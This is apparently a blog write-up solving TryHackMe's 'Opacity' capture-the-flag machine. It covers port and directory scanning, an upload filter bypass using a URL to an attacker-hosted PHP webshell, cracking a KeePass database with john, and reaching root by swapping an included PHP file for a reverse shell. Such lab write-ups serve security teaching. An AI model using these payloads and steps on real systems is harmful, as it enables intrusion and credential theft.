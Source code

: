 ```yaml
---
title: "Opacity"
date: 2025-02-14
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Opacity
categories: [Tryhackme, Easy]
tags: [linux, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Opacity</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/opacity">https://tryhackme.com/room/opacity</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Opacity.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.42.149                       
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:23 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 35.25 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,139,445 10.10.42.149
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:24 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.039s latency).

  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
  |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
  |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
  80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | http-title: Login
  |_Requested resource was login.php
  139/tcp open  netbios-ssn Samba smbd 4.6.2
  445/tcp open  netbios-ssn Samba smbd 4.6.2
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-02-14T11:24:26
  |_  start_date: N/A
  |_clock-skew: -6s
  |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```
From here I proceeded the analysis port by port.

## Port 445 Analysis

I analyzed the service with enum4linux, but didn't found any leads to proceed with.

## Port 80 Analysis

The webserver had a login page:

![Webserver Login](/assets/img/tryhackme/Opacity/thm_opacity_1.jpg)

Lacking information about potential credential combinations, I proceeded with a directory enumeration:
```bash
$ gobuster dir --url http://10.10.42.149/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.42.149/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 310] [--> http://10.10.42.149/css/]
  /cloud                (Status: 301) [Size: 312] [--> http://10.10.42.149/cloud/]
```

### /cloud Analysis

Navigating to `/cloud` revealed an upload dialog:

![Webserver Upload](/assets/img/tryhackme/Opacity/thm_opacity_2.jpg)

Above the input field, a small text read `External Link`. I started an HTTP server using Python and provided the URL for a test image. The image was displayed on the webpage, and the direct link was revealed. I continued trying to upload a webshell. After testing several input filter bypasses I was able to upload a php shell with the following bypass:
```html
http://[attackerip]/shell.php#test.jpg
```

![Webserver Uploaded Webshell](/assets/img/tryhackme/Opacity/thm_opacity_3.jpg)

```bash
$ whoami      
  www-data
$ cd /home
$ ls
  sysadmin
$ cd sysadmin
$ ls
  local.txt
  scripts
$ cat local.txt
  cat: local.txt: Permission denied
```

## Port ### Analysis

## Privilege Escalation sysadmin

I searched for files which belonging to `sysadmin` which revealed an interesting file:
```bash
www-data@opacity:/home/sysadmin$ find / -user sysadmin -type f 2>/dev/null
/opt/dataset.kdbx
```

After downloading the file I used `john` for cracking the password:

```bash
$ keepass2john dataset.kdbx > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  [removed]        (dataset)     
  Session completed.
```

With the password I was able to open the Keepass file and found the password for user `sysadmin`. 

![Keepass](/assets/img/tryhackme/Opacity/thm_opacity_4.jpg)

I successfully connected using `ssh`:

```bash
sysadmin@opacity:~$ cat local.txt 
  [removed]
```

## Privilege Escalation root

The user `sysadmin` had a folder called `scripts` in his home directory. The permissions are interesting:
```bash
drwxr-xr-x 2 sysadmin root     4096 Feb 14 17:51 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

This allowed the sysadmin user to modify anything within the lib directory, while `script.php` was executed with root privileges. I searched for a connection inside of the `script.php` and found the following command:
```php
require_once('lib/backup.inc.php');
```

I renamed the `backup.inc.php` file and created a new one which was a php reverse shell. Shortly after, I received an incoming connection:

```bash
# whoami
	root
# cd /root
# ls
  proof.txt
  snap
# cat proof.txt
  [removed]
```

solved! :)
